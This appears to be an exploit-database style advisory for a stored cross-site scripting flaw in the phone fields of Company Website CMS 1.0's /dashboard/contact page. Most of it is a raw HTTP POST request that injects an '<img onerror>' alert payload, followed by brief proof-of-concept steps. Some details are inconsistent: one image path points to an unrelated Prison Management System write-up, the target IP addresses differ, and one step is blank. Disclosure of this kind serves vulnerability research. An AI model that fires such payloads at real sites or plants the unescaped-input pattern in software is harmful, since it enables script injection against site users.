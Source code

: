 # Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code
#### Version: Company Website CMS  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application. Company Website CMS does not filter the content correctly at the  parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /dashboard/contact HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7024317128117527412760215857
Content-Length: 989
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/contact
Upgrade-Insecure-Requests: 1

-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone1"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone2"

+89 (0) 2354 5470091<img src="" onerror="alert(1)">
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email1"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email2"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="longitude"

7.099737483
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="latitude"

7.63734634
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="save"


-----------------------------7024317128117527412760215857--

```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/， We can see the alert.;
3. 

   ![image-20220810135857875](./img/image-20220810135857875.png)
   
   ![image-20220607095010559](./img/PrisonManagementSystem(XSS).assets/image-20220607095010559.png)

   

   






